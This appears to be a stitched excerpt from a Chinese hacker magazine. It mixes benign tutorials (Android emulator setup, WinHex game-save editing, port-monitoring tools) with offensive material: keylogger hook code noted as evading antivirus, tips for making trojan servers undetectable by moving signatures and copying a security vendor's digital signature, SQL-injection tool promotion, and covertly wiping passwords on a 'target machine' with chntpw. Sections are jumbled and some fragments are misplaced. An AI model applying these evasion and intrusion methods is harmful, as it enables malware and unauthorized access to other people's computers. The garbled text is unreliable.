将以上代码保存为 `C:\WINDOWS\record.bat`，并通过在注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 键下增加一名为 `record` 的字符串值（图1），将其设为自动启动程序……并将 U 盘使用记录保存在 `C:\Removable.log`。


图2

> 呵呵，这下“人赃并获”，大家无从抵赖了吧^^

## 播放手机：把血止住的姿势全攻略

#### 一、电脑上搭载安卓系统

如今的手机产品已不再是当年只打电话、发短信的通信工具……安卓系统以其强大的开源开放性吸引了众多移动终端厂商加入……下面大家听我的讲解。

安装 Java 的环境变量，首先我们先来安装 Java，双击打开下载好的 `java1.6`，一直点击下一步……直到安装完成。


图1

- 1. 安装 Java

安装 Java 最重要的也是最容易出错的是设置环境变量。这些一共需要设置 3 个环境变量，分别是 `JAVA_HOME`、`Classpath` 和 `Path`……

接下来我们来设置 Java 的环境变量……在变量值中填写 `F:\java\jdk1.6.0_10`（默认目录可用 `C:\Program Files\Java\jdk1.6.0_10`）……


图2


图4


图3


图5


图6

`JAVA_HOME` 指明了 JDK 安装路径，就是刚才安装时所选择的路径，此路径下包括 `lib`、`bin`、`jre` 等文件夹，运行 tomcat、Eclipse 等都需要依赖此变量；第二步设置变量 `classpath`，`classpath` 为 Java 加载类（class or lib）路径，只有在 `classpath` 中，Java 命令才能得到识别，我们依然点击新建，变量名填写“classpath”，变量值填写 `.;%JAVA_HOME%\lib;`，注意前边要加“.”来表示当前路径；第三步是设置变量 `path`，`path` 的作用是使得系统可以在任意路径下识别 Java 命令。因为 `path` 在默认下已经存在，所以我们直接找到 `path` 这个变量，选中后点击编辑，在前面加入 `F:\java\jdk1.6.0_10\bin;` 即可（如果是默认路径安装直接填写 `C:\Program Files\Java\jdk1.6.0_10\bin;`）。如图4，下面我们来验证下是否成功安装 Java 环境，打开 cmd 输入 `java -version` 来查看下 JDK 的版本信息，如图5出现此类提示则代表顺利安装。

#### 2. 安装 SDK 模拟器

下面我们来安装 SDK 模拟器，首先双击打开我们解压好的安装包，双击 SDK Setup 配置程序便会自动打开。如图6，选中 Android SDK and AVD Manager 窗口左侧的 Settings（如遇到 `Failed to fetch URL` 的错误，那么需要将 HTTPS 方式改为 HTTP 方式），接下来勾选 misc 下的第一个复选框 `Force https://... sources to be fetched using http://`，之后就是安装插件。大家选择 Installed Packages，点击 Update All，会弹出进度框，稍等一会就好，如图7。如若电脑弹窗依然让选择安装哪些程序的话，大家就选择 `Accept All`（全部选择）即可。接下来就是等待下载，下载完成后点击 Cancel 退出并重新启动软件。程序弹出如图8的程序选择下载界面。

因为我要安装的是安卓 2.2 的系统，所以我这里勾选 `SDK Platform Android 2.2; API8, revision2` 来安装。如果你想在安卓上开发应用程序和游戏应用，那么可以选择安装全部，双击其他选项更改状态为 X 表示不安装。如果选择得多了有些程序比较大，在安装过程中大家需要耐心等待。


下面我们来创建模拟器，也就是安卓系统的窗口。大家把状态栏切换到 Virtual Devices 选项卡下来新建模拟器窗口，点击窗口右边的 New 进行新建，如图9；Name 随便填写，SD Card 的大小我们就写 1024，模式选择 MiB，接下来就是选择皮肤（Skin）。这里我要强调下，为了保证预览效果大家最好选择 HVGA，HVGA 下的预览效果和手机般大小更方便我们的操作。如图10，到此刻我们就成功创建了 AVD。最后在列表里选择新建的要运行的模拟器（Virtual Device）单击 `Start...`——`Launch`，如图11。


这里要提醒下大家，如果大家在启动过程中出现错误代码：

```text
invalid command-line parameter: and.
Hint: use '@foo' to launch a virtual device named 'foo'.
please use -help for more information
```

则表示你安装的 SDK 目录错误，因为 SDK 无法安装在中文目录，否则会启动不正常。遇到这种情况大家只需要换个全英文路径的目录即可。最终安装好的安卓界面如图12所示。


图12


图13

默认安装出来的系统是英文版本，这时候我们可以选择键盘上的 MENU 进入菜单，之后选择 Setting 进入设置，找到语言的栏目进行更换。

#### 二、使用 APK 安装器在模拟器中安装应用程序

如今模拟器是安装出来了，但是安卓系统不同于塞班系统，它无法将软件直接拖拽到模拟器中打开。这里我为大家讲解一种最简单的方法——使用 APK 安装器。APK 安装器是 OMS 手机网和 Android 手机网联合开发的一款运行在 PC 端的软件安装工具，可以兼容 Android、Gphone 以及 iPhone 手机的 APK 格式软件安装。打开 APK 安装器，点击“android设备”下的刷新设备列表，如图13所示成功探测到我们打造的安卓系统。接下来大家选择自己想要的程序点击“开始安装”，当“安装结果”提示安装成功，请在手机功能表中运行使用，则代表安装成功。我安装了一个 QQ 浏览器测试截图如图14所示。


图14

不过这时候大家可能要有疑问了，要怎么管理 SD 呢？其实这张 SD 卡是个镜像文件，它的大小为新建时设的数值，我的大小为 1024MiB，其在你系统中的地址为：`C:\Documents and Settings\****\.android\avd\****.avd\sdcard.img`（第一个 `****` 是你电脑的用户名，第二个 `****` 是你建立 avd 时候填写的 Name）。找到后无法直接打开，否则会出现如图15的提示，所以我们需要用类似 UltraISO 之类的软件进行编辑，不过在打开前需要关闭模拟器方可进行。


图15

#### 三、总结

不过遗憾的是现在安卓系统已经无法模拟 iPhone QQ 手机登陆图标，因为时间原因，安卓系统安装 QQ 浏览器赠送 QB 的活动也失效，所以我无法为大家演示此系统给我们带来的切身收益。不过我相信腾讯与安卓的合作才刚刚开始，随着时间的演变，更多诱人的活动和福利将逐一展开。

### 注入那些事之“凶人帮”

牛晓东

“注入”者，名如其义，在与对方数据库的一次次“别有用心”刺探访问中猜解出敏感信息的长度、范围，最终精确到点……针对工具而言，旁注相当于注入的批处理，是一种更为自动化的注入检测。

国内外主流数据库，提供注入点的管理功能和数据导出功能，还提供丰富的绕过防火墙过滤功能，建议菜鸟有时间多研究一下 Pangolin。


图2


图1


图3

言归正传——大家使用“啊D”和“明小子”的日子都很久了……其中包括若干个关于注入和旁注的工具，在此想与广大叉友们共享。

- 1. Pangolin 3.2.4 正式破解版最新无错版  
即“穿山甲”是也……Pangolin 支持代理和 HTTPS，全面支持包括 Access、MySQL 和 Informix 等在内的国内外主流数据库。

- 2. TOOLS 旁注工具  
使用极其简单而且功能非常牛的一个单文件绿色旁注检测工具（易语言编写），双击运行后输入目标网址 URL，点击“单服务器”和“C段服务器”即可快速显示结果（如图3）。

### 3. 哈客御剑 1.4 终结版

这个工具似乎前一阵在咱的《X》论坛上见过，经过用，发现这还是一个非常全面的优秀注入检测工具。从旁注查询、C段查询到后台扫描、MD5 加密解密，再到批量注射点、批量扫后台等等功能（如图4），非常容易上手。以“批量注射点”为例，其中所列的“吸取旁注列表”“吸取 C 段列表”和“外部导入列表”等很是人性化，注入的检测效率很高。唯一的缺点就是点击“关闭”按钮之后仍“赖”在“Windows 任务管理器”中，需要手工结束掉进程。

运行后在左上角的“Url”处输入目标网站的域名，然后点击下方第一个“GetIp”按钮就可以得到对应的 IP 地址；同时，在“IP Scope”中将得到的 IP 段起始值自动显示。然后，点击第三个“Scan C”按钮进行该 C 段服务器的扫描，结果会依次出现在下方的显示窗口中（如图5）。当扫描结束之后（下方出现“Work completed”的提示），点击第四个“Export”按钮会调用浏览器打开刚刚得到的服务器扫描报告，都是超链接 URL，可以直接点击进行访问。


图4


图5

（文中涉及的相关软件本期光盘已收录）

### 4. 旁注扫网站 Copico

很显然这个小工具将自己的功能直接定位于旁注，打开运行后……

### 用 WinHex 来修改《仙剑奇侠传4》

许建轩

最近在玩《仙剑奇侠传4》，相信这么经典的国产单机游戏不少人都玩过吧。虽不是什么新游戏，但我却是在最近高考完才有时间玩的。这游戏画面效果还算可以，剧情挺感人的。玩的过程觉得打怪升级太慢了，于是就萌生了修改游戏的念头。说到修改游戏，大家一定会马上想到“金山游侠”吧，但我这里并不用到这款软件，而是使用 WinHex 来修改游戏存档的方法。

首先进入到《仙剑4》的安装目录，就会看到一个名为“save”的文件夹（save 即保存、存档的意思），进入后就能看到一些图片和后缀为 `.dat` 的编号文件，如图1，这些编号文件就是存档文件了。大部分单机游戏的存档文件都在游戏的安装目录下，也有一些在 `C:\Documents and Settings\Username\Application Data` 或 `C:\Documents and Settings\Username\My Documents` 文件夹中（路径中的“Username”请替换成你自己的用户名，默认为 Administrator），根据文件名称一般可以找得到。


图1


图2


图3


图4

接下来运行 WinHex，通过点击“文件”——“打开”来载入游戏存档文件 `0.dat`，如图2（注意修改前最好先备份一下存档文件，以免修改失败导致进入不了游戏）。先别急着修改，我们先运行游戏并且读取当前的存档，可以看到人物目前的状态，如图3。不如我们先来修改下金钱试试，从图中可看到当前的金钱数为 19202，记录下这个数字。由于 WinHex 是一款十六进制编辑软件，所以我们要先将金钱数从十进制转换为十六进制，笔算过程如图4所示。当然，我们用不着这么麻烦地去计算，直接使用系统自带的计算器即可完成进制间的转换：打开计算器后，选择“科学型”，在十进制下输入 19202，再切换到十六进制，得到数值 `4B02`，这数值跟我们前面笔算的结果一样。

图5

我们再回到 WinHex 的界面中，依次选择“搜索”——“查找16进制数值”，在弹出的查找窗口中输入 `024B`，如图6。这里估计小菜们会感到纳闷，为什么输入的不是我们计算出的 `4B02`，而是经过部分倒序后的 `024B` 呢？其实，这里就涉及到了计算机数据存取的原理了，数据存放方式有正序（Big-Endian）和逆序（Little-Endian）两种（也被称为大尾方式和小尾方式），我们常见的 CPU 对数据的处理采用的便是逆序方式，所以我们输入的十六进制数值应是 `024B` 而不是 `4B02`。同样，假如我们计算出的十六进制数值是 `5CF`，那么经过逆序转换就成了 `CF05`。


图6

继续我们的操作，在查找窗口中输入 `024B` 后点击“确定”，便看到了如图7所示的数据，而且在我们查找的数值前面还看到了“money”的字样，这时就能确定这便是记录金钱数的地方了。下一步就是要把它改成我们想要的金钱数。假如我们要把原来的 19202 文钱改为 1000000 文钱，那么就先把 1000000 转换成十六进制的 `F4240`，再经逆序处理，得到 `40420F`，然后在 WinHex 左边的窗口中将原来的 `024B00` 改为 `40420F`，再点击一下“保存”，在弹出的确认窗口中选择“是”，如图8。最后我们回到游戏中，重新加载存档后就能看到金钱数已经变成了 1000000，如图9。这下发了，现在咱可是百万富翁了哦 O(∩_∩)O～，想买什么买什么了（要是现实中钱也来得这么容易就好了(*^__^*)）。经测试，钱数最多只能改到 9999999，要把这钱花完可是个难题呢，我就是每种装备都买了两件，一件用来装备，另一件用来丢弃……

接下来就是修改人物的等级了，等级是由经验值来决定的，也就是说只要把经验值改得高一点，等级、攻击力和血量之类的属性值也会增加。修改的方法同上，但是在查找到一处十六进制数值后，再按一下快捷键 `F3` 继续查找，就会找到第二处相同的数值，而且都有“Experience”（经历，经验的意思）的字样，如图10。那么这两处要改哪一处呢？其实两处都要改。改完保存后，回到游戏时会看到经验值是变高了，但等级还没变，这时我们只要随便杀几只怪物，待战斗结束后就会看到我们的等级已经飞升了，如图11。建议别一次性把数值改得太大，毕竟“孤独求败”的境界也是很寂寞的……


顺便强调一些特殊情况，有时搜索到的十六进制数值并不是我们要修改的地方，这一点可以靠 WinHex 右边窗口的文本字符串来确认。而有时游戏中出现的数值，在存档中也有可能搜索不到，我曾修改过一款游戏，它的存档没记录人物的经验值，而是记录升级所需的经验值。另外有些游戏存档是经过加密的，这样的话我们是没法修改的（当然，高手除外）。

最后想说的是，游戏无限，时间有限，大家偶尔玩游戏放松一下可以，但千万不能沉迷，要以学业为重！

### 菜鸟浅谈 Ring3 下键盘输入信息的获取

对于一个玩黑的菜鸟来说，平时接触的关于键盘记录的工具肯定不少，比如一些远控、盗号木马等等，可是这些工具的键盘记录功能是如何实现的呢？今天就让我来带领大家了解下怎样通过编程实现键盘输入信息的获取。

首先介绍一种比较常用的记录方式，那就是钩子。利用钩子，你可以捕捉自己进程或其它进程发生的事件。通过“钩挂”，可以给 WINDOWS 一个处理或过滤事件的回调函数，该函数也叫做“钩子函数”，当每次发生你感兴趣的事件时，WINDOWS 都将调用该函数。而我们要实现键盘记录功能，就是要捕获系统或者指定进程的键盘输入消息，在钩子的回调函数对捕获到的信息进行处理。安装钩子用 `SetWindowsHookEx()` 函数：

```cpp
HHOOK WINAPI SetWindowsHookEx(
    int idHook,
    HOOKPROC lpfn,
    HINSTANCE hMod,
    DWORD dwThreadId
);
```

第一个参数是要安装钩子的类型，即它处理的消息，因为我们这里要记录键盘消息，所以我们可以设置为 `WH_KEYBOARD`。第二个参数是钩子回调函数，必须按照以下语法书写：

```cpp
LRESULT CALLBACK KeyboardProc(
    int code,
    WPARAM wParam,
    LPARAM lParam
);
```

第三个参数是应用程序实例的句柄；第四个参数是与安装的钩子子程相关联的线程的标识符，因为我们要捕获全局的键盘输入信息，所以这里我们设为 0，表示安装的是全局钩子。这里我们要将安装钩子的代码跟钩子回调函数写到一个 DLL 程序中，dll 程序代码如下：

```cpp
#include "stdafx.h"

BOOL APIENTRY DllMain(HMODULE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

LRESULT CALLBACK KeyboardProc(int code, WPARAM wParam, LPARAM lParam)
{
    // 在这里处理捕获到的键盘消息
    return CallNextHookEx(HookId, code, wParam, lParam);
}

BOOL SetHook()
{
    HookId = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc,
                              GetModuleHandle(_T("KeyHookDll.dll")), 0);
    if (HookId)
        return TRUE;
    else
        return FALSE;
}

BOOL UnHook()
{
    if (UnhookWindowsHookEx(HookId))
        return TRUE;
    else
        return FALSE;
}
```

```cpp
// 代码续：回调处理、SetHook() 与 UnHook() 函数实现（右栏）
// 包含 CallNextHookEx、SetWindowsHookEx、UnhookWindowsHookEx 的调用
```

在 DLL 中将 `SetHook` 跟 `UnHook` 函数导出一下，然后再写一个主程序去调用 DLL 中的这两个函数来实现键盘记录功能的开启和关闭。截取结果如图1所示。


图1

下面再来介绍一种 Ring3 下算是比较底层的键盘记录方法：使用原始输入（Raw Input）记录键盘输入信息。Raw Input 的 API 为应用程序提供了稳定、健壮的读取原始数据的方式，包括键盘和鼠标。要实现用原始输入方法记录键盘，我们可以按照如下步骤进行：

获取一个 RAWINPUT 数据，而且对于大多数 HID 设备都可以用这种方式读取。应用程序调用 `GetMessage` 得到 `WM_INPUT` 消息，然后应用程序通过 `WM_INPUT` 消息调用 `GetRawInputData` 来获取 RAWINPUT 句柄。相对应的缓冲方式每次得到一系列的 RAWINPUT 结构，这是给那些能够产生很大数据量的原始输入使用的。用这种方法去获取数据，首先调用 `GetRawInputBuffer` 去获取一系列的 RAWINPUT 结构。注意 `NEXTRAWINPUTBLOCK` 宏是用来获取下一个 RAWINPUT 结构的。对话框程序可以直接添加 `WM_INPUT` 响应消息，在消息处理函数中我们对原始输入信息进行处理并保存到文件中，具体代码已打包，截取结果如图2所示。

#### 1. 注册原始输入设备


图2

#### 2. 读取原始输入（响应 WM_INPUT 消息）

当一个应用程序收到了原始输入，应用程序的消息队列就会得到一个 `WM_INPUT` 消息，有两种方法去读取原始数据：标准（没有缓冲的）方法和缓冲方法。

关于这两种 Ring3 下的键盘记录方式，第二种方式相对来说是比较“绿色”的，也不容易被杀软拦截。希望大家能好好理解，不要做一个只会用工具的小菜。

（文章中涉及的相关代码本期光盘已收录）

## 修改PE文件隐藏IIS的banner

一般来说，渗透测试前都需要做好信息收集的工作，比如探测对方的端口、开放的服务等等。针对 Web 服务软件攻击时，确认对方所使用的 Web 服务软件以及具体版本也非常重要，特别是针对特定版本的 0day 攻击时，需要得到确凿的版本号。

如何确定对方所使用的 Web 服务软件呢？最简单的是根据 HTTP/1.1 的标准，服务器返回的 HTTP 消息头中 `Server` 字段就包含了对方所使用的 Web 服务软件，有些还包含了具体的版本号。我们可以利用 nc 来看一下。

192.168.0.111 是我网段内安的一台 Web 服务器，在命令提示符中运行 nc 并带上参数：

```bash
nc.exe 192.168.0.111 80
```

然后可见光标闪烁，意味着需要输入信息，依次输入：

```text
HEAD / HTTP/1.1
HOST:192.168.0.111
```

上面中“[空格]”标识需要读者自行替换成空格来隔开。接着回车两下。`HEAD` 字段代表只需要服务器返回 HTTP 头，不需要返回数据；后面的 `HTTP/1.1` 是具体的 HTTP 版本号。现在绝大多数都是 HTTP/1.1，基本上不会存在 1.0 版本了。不过要是提交 `HEAD / HTTP/1.0` 的话，就不需要 `HOST` 字段了；`HOST` 字段指服务器的地址，在 HTTP/1.1 标准头中，`HOST` 字段是必须存在的，而 HTTP/1.0 中是可选的。但是要是只提交 `HEAD / HTTP/1.0`，有时会自动转换成 HTTP/1.1 的字段，不过可以少输一行达到偷懒的效果。之所以要解释这一段，是为了解释为什么有些人疑惑输入 `HEAD / HTTP/1.0` 却返回的是 HTTP/1.1 的消息。最后需要回车再回车也是跟 HTTP/1.1 标准有关，前一个回车是 HTTP 消息头内需要一个回车结尾，后一个回车是提交数据。

之后，服务器将返回 HTTP 消息，如下：

```text
HTTP/1.1 200 OK
```

## 傻瓜黑客


第一行响应的值是 200，说明请求成功。其他字段在这里不做过多解释，详细的可以见 HTTP 协议方面的资料。关键字段是 `Server`，冒号后面的值暴露出服务器使用的 Web 软件以及具体版本了。根据这个版本很容易推测出对方使用的是 Windows 2003 操作系统。

我一直觉得 `Server` 头应该可以根据需求自己修改，因为很多时候它的弊端大于利端。而 nginx、Apache 这些开放源码的 Web 服务软件都可以在编译前修改源码中的信息。IIS 是闭源的，没法通过源码修改。但是再闭源，这些信息也是在文件中存在的，可以直接硬修改文件中的信息来隐藏它。研究了许久，终于找到了方法。之后在网上看到 IIS 5.0 的 banner 信息也可通过类似方法修改，却没有找到针对 IIS 6.0 的。思考一下，Web 服务软件和客户端浏览器是基于 Client/Server 模型的：客户端浏览器发出消息，服务端的 Web 服务软件读取数据，然后传给客户端。所以我们有两个办法来隐藏信息：

- 在传送给客户端之前劫持信息，修改敏感信息后再传送，类似代理，但会降低性能；
- 直接修改文件中的信息，让它传给客户端的是我们修改后的信息。


经过一番研究，终于发现这些信息存在 `c:\windows\system32\inetsrv\w3core.dll` 文件中；对于这样的二进制 PE 文件，只能通过修改二进制来实现。下面咱们就开始修改。默认下 Windows 2003 开启了系统文件保护，所以要开刀，需删除 `c:\windows\system32\dllcache` 中备份的 `w3core.dll` 文件。若不删除，修改后会被替换回来。这个路径需要直接在地址栏中手动输入。删除后，用 Uedit32 打开 `c:\windows\system32\inetsrv\w3core.dll`。

在茫茫十六进制代码中一个一个找关键信息很麻烦，直接搜索即可：点击菜单栏“搜索”——“查找”。搜索内容可从刚才用 nc 提交信息后服务器返回消息中的 `Server` 字段提取关键字，这里用“6.0”为关键字。记得勾选“查找 ASCII”，如图1所示。

查找结果如图2：


图2中刷黑部分就是查找结果，可以直接修改这里。我把“36”直接改成“37”，后边显示就成了 7.0。读者可以按自己的喜好修改，这里我伪造成 IIS 7.0，如图3：


之后对修改后的文件进行保存。不过因为 IIS 在运行，保存时需要先停止 IIS 服务。在“控制面板-管理工具-服务”里找到 `IIS Admin Service`，然后停止它。之后保存对 `w3core.dll` 的修改。倘若还是无法保存，最直接的方法是另存为其他名字，然后删除原 `w3core.dll`，再将新文件重命名为 `w3core.dll`。保存后再启动 `IIS Admin Service` 服务，启动后最好再重启一次，保证全部依赖服务都启动。修改后抓的包如图4；我用 Nmap 扫描的结果如图5。

不过修改后用 httprint 也容易猜测出版本，因为 httprint 采用了 HTTP 指纹识别和 HTTP 签名技术，再结合统计学原理。关于这些方面，以后再撰文述之。

### 旁门左道——免杀小技巧总结

免杀这个呀，我学了挺长时间了，大致分为 6 块：特征码免杀、加花、加壳、源码免杀、异或加密（多用于区段表）、各种小技巧。除源码免杀对编程语言有要求外，其他 5 种免杀要求的都是 PE 文件结构、汇编、各种工具使用方法。有大量教程讲解这几类，但是我们实际操作时却发现许多问题，理论严重脱离实际。这种小意外总是能让新学的童鞋们一阵挠头，这里做个小总结，希望对学习免杀的叉子有帮助。

段和异或数就可以了。部分移位其实和输入表移位差不多：先找到这附近有一个库 DLL 的名字，记下，然后把定位的特征和上下整个这一段全后移。别问多大算一段，只要是有字的就算这一段，到空白为止。然后载入 LordPE，中点目录，点输入表旁边那三个小点按钮，将名称错误已出现错误的库地址和库中函数地址更改为新地址。就是你移动时向后移了几位，在这里地址就加几。然后一路保存确定。

### 一、跳转后服务端废了

有没有遇到过这种情况：定位特征 NOP 后，把该处特征转移至某 0 区，测试免杀通过；但测试上线时运行服务端却报错。原因很简单：比如你定位的特征在地址 45，大小为 2，于是你把 43 到 47 全部移到某 0 区，测试免杀不杀，但无法正常上线。这时重新生成一个服务端，载入 OllyDbg，从 43 到 47 每行看看，一定会找到如图1这种红线。简单解释就是：比如在地址 23 处有句话会跳到 44，而你把 44 处代码挪走了，现在的 44 是 NOP。解决方案是回到 23，把那句里的地址改为你跳转后 44 的新地址即可。比如如果你把图1中的 `00402189` 挪到了 `00406666`，就把 `0040217B` 的代码中 `00402189` 改为 `00406666`。


#### 二、输入表错了

在 LordPE 和 PEiD 中可以看输入表、输出表和重定位数据的开始结束与大小，很方便，却也有弊端。有没有发现过定位出来的特征在一处全是 API 函数名和 DLL 的地方，与输入表输出表极其相似；然后用 LordPE 和 PEiD 一看输入表输出表却都不是这里。这里告诉你，那些绝对是输入表或输出表。至于为什么在 LordPE 和 PEiD 中看不到，大概是因为你所使用的服务端以前被人重建或移位过输入表。所以这里不能再用一般方法修改此处，大体有 2 种解决方案：异或加密、部分移位。异或加密就不说了，随便找个 0 区把加密代码写上，自己更改下加密段和异或数即可。

#### 三、数字签名（卡巴、360）

数字签名这个东西有时候对卡巴和 360 有效。首先找到卡巴或 360 的快捷方式，右键属性，查找目标，将找到的 exe 复制一个到你要免杀的文件所在处。将其载入 LordPE，点击目录，记下“安全”的地址和大小如图2。然后将其和你要免杀的服务端同时载入 C32Asm（打开一个后再点文件打开即可，`POWERPNT.exe` 为 360 的 exe）。在 `POWERPNT.exe` 中跳到前面记录的地址，然后将这个地址开始到 `POWERPNT.exe` 结尾的全部内容选择拷贝。若觉得拖拽很慢，可以在开始地址按住 Shift 点一下左键，在结尾再按住 Shift 点一下左键。然后到服务端最后一位右键粘贴，并记录下数字签名在服务端中的开始地址，保存关闭。将服务端载入 LordPE，把数字签名在服务端中的开始地址复制到“安全”的地址，大小与图2操作时记录的大小相同，然后保存确定、再保存确定。


## 用Chntpw清除Windows系统账号的密码

安全是什么样的一个概念？系统里装了杀毒软件、防火墙、病毒库最新就是安全吗？不是的。在我看来，一名入侵者能够利用社会工程学坦然绕过重重人力保护，而他本人又有一身精湛技术，直奔目标，窃取资料或者悄悄留下 backdoor，这才是真正的高手……


图1

人们总认为系统加了密码就是安全的。在我初中的时候，我母亲用密码锁住系统，我就用事实证明了：只要能接触到物理机，即便系统设了密码，也未必安全……


图2

让我们带上刚才刻录好的 BT5 启动光盘，来到目标机，悄悄地将光盘插入光驱，拔下主机箱电源，然后用光盘引导启动 BT5。在 BT5 中，位于“Applications——BackTrack——Privilege Escalation——Password Attacks——Offline Attacks”中有一款名为 chntpw 的工具。用它可以清除 Windows 系统密码。启动它将打开一个终端窗口，接下来我们将在这个终端窗口中进行一切邪恶的操作。


图3

```bash
mount /dev/sda1 /mnt
```

验证一下，`ls /mnt`，看是否是 Windows 所在硬盘分区。图4中红圈部分看到名为“WINDOWS”的文件夹，是 Windows 的系统目录。


图4

第二步，用 chntpw 查看 SAM 文件。注意图4中系统目录名为“WINDOWS”，全部大写，Linux 区分大小写；“SAM”也同样如此，需要注意大小写。SAM 文件位于 `%systemroot%\system32\config` 目录中。

```bash
./chntpw /mnt/WINDOWS/system32/config/SAM
```

输出如图5。


图5

将终端输出往上拉，可见图6中 `Username` 列给出了当前 Windows 系统所有用户名。


图6

接着在提示 `Select [q]>` 中输入选项。为了清空 Windows 用户密码，我们选择 `1`，敲下回车，提示：

```text
Hives that have changed:
 #  Name
 0  </mnt/WINDOWS/system32/config/SAM>
Write hive files? (y/n) [n] :
```

输入 `y` 并按下回车键，提示：

`0 </mnt/WINDOWS/system32/config/SAM> - OK`

清除密码成功。接下来重启电脑，取出光盘，咱们就完美地“破门而入”目标系统了。对于电脑中有重要且不能让别人知道资料的同志，除了做好网络安全，还需要做好物理安全。物理攻击才是威胁最大的；能够接触到物理，电脑中所做的重重防御将变得毫无意义。

### 菜鸟查端口的“集结号”

在网络安全领域中，“端口”（Port）应该算是兵家常争之地，是计算机与外界通讯交流的出入口，就好比信息流通的“窗口”。从理论上讲，一台计算机可以有 65536（即 2 的 16 次方）个端口。不管是正常开放的端口服务还是木马后门端口，我们都需要明确掌握并辨认出来。

发现有“xxx.3322.org”和 8000 之类的灰鸽子上线域名和端口的话，就赶快进行木马查杀吧……

### “集结号”之一：Windows自带的netstat命令

这种方式可以说是最直接和迅速的了。到 Windows 的 CMD 窗口下输入 `netstat -an`（注：命令与参数之间至少要有一个空格，横杠是英文半角），回车（如图1）。在“本地地址”和“外部地址”两列中就有形如“192.168.1.99:59682”和“186.213.19.104:5938”之类的信息，非常清楚地显现出通信双方的 IP 地址和所使用端口（“IP:端口”的格式）。


图1

## 傻瓜黑客

### “集结号”之二：360安全卫士查IP和端口

对于检查端口这种非常重要的系统安检工作，很多杀毒安全软件当然不会坐视不理，比如 360 安全卫士。在“功能大全”中，360 安全卫士的“网络优化”-“网络连接查看器”-“网络连接”就为我们提供了非常详细的端口查看信息（如图2）：从“进程”、“安全等级”、“协议”到“本地 IP”、“本地端口”、“目标 IP”和“目标端口”，甚至还有“目标 IP 归属地”和“状态”等信息。我们可以在某进程上直接单击鼠标右键进行“结束进程”、“查看进程详细信息”、“复制此连接的详细信息”、“定位文件”、“查看文件属性”等操作，非常便于木马源服务程序的查找和斩杀。

（续）……名称、位置、大小、类型及内存使用量等详细信息，是手工查杀木马的利器。


### “集结号”之三：专门的端口查看器 Active Ports

到 `http://u.115.com/file/bhqlrk3e#` 下载“Active Ports端口查看器汉化版.exe”（绿色版），直接双击运行，即可开始监控本机上所有打开的 TCP/IP 以及 UDP 端口，还包括所有端口所对应的程序、路径、本地 IP 和远端 IP 是否正在活动（如图3）。我们可以在 Active Ports 界面中中断任何非法连接及关闭任何端口，让木马等恶意程序无处藏身。

### “集结号”之五：简洁的TCPView

到 `http://u.115.com/file/e6dctqfj#` 下载 `TCPView3.02.rar`，解压缩之后双击运行其中的 `Tcpview.exe` 即可进行进程和对应端口查询（`Tcpvcon.exe` 是命令行形式）。从“进程”、“PID”、“协议”到“本地地址”、“本地端口”、“远程地址”和“远程端口”等信息都一览无余（如图5），在某进程上右击可进行“进程属性”、“结束进程”和“关闭连接”等操作。

### “集结号”之四：极为条理的Port Explorer

到 `http://u.115.com/file/dngaonrf#` 下载 `PortExplorer.rar`（绿色版），解压缩之后双击运行其中的 `PExplore.exe` 即可打开软件，查看本机所有 TCP 与 UDP 接口数据传输情况（如图4）。Port Explorer 以选项卡形式分别设立了“全部”、“TCP”、“UDP”、“远端”、“监听”、“已连接”、“正关闭的连接”、“进程日志”共八项内容，支持在某进程上单击鼠标右键进行快捷操作，包括进程和套接字终止、本地和远程端口查看及解析、追踪 IP 等实用功能，操作很方便。比如可以直接在某进程上双击，立刻得到该进程所对应运行程序的名称、位置、大小、类型及内存使用量等详细信息。

### “集结号”之六：很给力的IP雷达

到 `http://u.115.com/file/dng4x7i9#` 下载 `IP雷达_V3.0.rar`，解压缩之后双击运行其中的 `IPTape.exe` 即可进行当前网络状况监测；`dat` 文件夹中的 `ipanother.txt` 文件是 IP 数据库文件，类似著名的“纯真 IP 数据库”，记录了形如“218.12.39.74 - …”的数据。


图5


图6

……不仅包括并不直观的 218.30.114.205 之类的数字 IP 形式，还有“北京市电信IDC机房”之类的直观信息。这种信息在进行木马控制端的反查时显得极为便利。当然，IP雷达也有对应进程的调用程序名称和路径、最近传输时间、速度及流量等更为详尽的信息，查找和终止进程的端口等操作更是不错。

218.12.39.74「河北省石家庄市 稻草人网吧」之类的若干信息，大小为 21MB，可随时修改或添加等更新操作。使用 IP 雷达可以非常方便地实时监测本地机有什么程序在访问网络，被访问的网站域名和 IP 是什么、访问流量……（如图6）在 IP 数据库的支持下，IP 雷达最为让人感性的显示就是远程 IP 端口通信地点信息。

怎么样，有了这些给力的“集结号”，相信身为菜鸟的你不会再为端口的查控而苦恼了吧？

## 让VC实现手机控制电脑自动关机

前些日子在网上看到有人写了款软件，用手机控制电脑关机的！

他是这样描述软件的：第一步登录QQ，再运行他的软件，第二步在手机登录QQ，这时电脑便会自动关机了！

我百思不得其解，到底是怎么回事。在线上想着“第一步登录QQ再运行他的软件，第二步手机登录QQ，这时电脑便会自动关机了！”忽然灵光一现！或许就是这样！

#### 一、思考篇

就像他所描述的那样，大家想一想用手机登录早已在电脑登录过的QQ时会遇到什么情况？！相信被盗过QQ的用户肯定见过“下线通知，提示QQ已在异地登录！”。我们可不可以这样：用 API 函数 FindWindow 查找“下线通知”的窗口句柄，如果该窗口存在就发送一个关机的指令（ExitWindowsEx）。有一点是要说的是 XP 系统在进程调用 ExitWindowsEx 关机之前，进程必须要获得 SE_SHUTDOWN_NAME 进程权限才可以使用 ExitWindowsEx 关机。

#### 二、准备篇

函数原型

```c
HWND FindWindow(...); // 查找窗口句柄，成功时返回窗口句柄
```


图1

```c
HWND FindWindow(        // 查找窗口句柄，成功时返回窗口句柄
    LPCTSTR lpClassName,   // 类名
    LPCTSTR lpWindowName   // 窗体标题
);

BOOL ExitWindowsEx      // 函数用来退出、重启或注销系统。
(
    UINT uFlags,        // 关闭参数
    DWORD dwReserved    // 系统保留，一般取0
);
```

- EWX_FORCE：强制终止进程
- EWX_LOGOFF：关闭所有进程，然后注销用户
- EWX_POWEROFF：关闭系统并关闭电源
- EWX_REBOOT：关闭系统，然后重新启动系统
- EWX_SHUTDOWN：关闭系统，安全地关闭电源

